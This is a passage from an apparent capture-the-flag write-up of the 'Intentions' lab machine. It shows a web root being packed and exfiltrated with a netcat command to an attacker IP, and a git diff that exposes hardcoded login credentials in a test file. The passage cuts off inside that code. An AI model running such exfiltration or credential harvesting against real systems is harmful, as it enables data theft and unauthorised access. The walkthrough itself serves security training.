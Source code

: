 

#### Git Repo

I'll bundle the entire website (for low bandwidth situations the `.git`
folder would do):



    www-data@intentions:~.md/intentions$ tar -cf /tmp/site.tar .



I'll exfil that back over `nc`:



    www-data@intentions:~.md/intentions$ cat /tmp/site.tar | nc 10.10.14.6 443



On my host:



    oxdf@hacky$ nc -lnvp 443 > site.tar
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.220 47024
    ^C
    oxdf@hacky$ tar xf site.tar



The repo has four commits:



    oxdf@hacky$ git log --oneline 
    1f29dfd (HEAD -> master) Fix webpack for production
    f7c903a Test cases did not work on steve's local database, switching to user factory per his advice
    36b4287 Adding test cases for the API!
    d7ef022 Initial v2 commit



Exploring the differences in the commits (with
`git diff commit1 commit2`), `/tests/Feature/Helper.php` is added in the
second commit, "Adding test cases for the API!":



    oxdf@hacky$ git diff d7ef022 36b4287 tests/Feature/Helper.php
    diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
    new file mode 100644
    index 0000000..f57e37b
    --- /dev/null
    +++ b/tests/Feature/Helper.php
    @@ -0,0 +1,19 @@
    +<?php
    +
    +namespace Tests\Feature;
    +use Tests\TestCase;
    +use App\Models\User;
    +use Auth;
    +class Helper extends TestCase
    +{
    +    public static function getToken($test, $admin = false) {
    +        if($admin) {
    +            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    +            return $res->headers->get('Authorization');
    +        } 
    +        else {
    +            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    +            return $res->headers->get('Authorization');
    +        }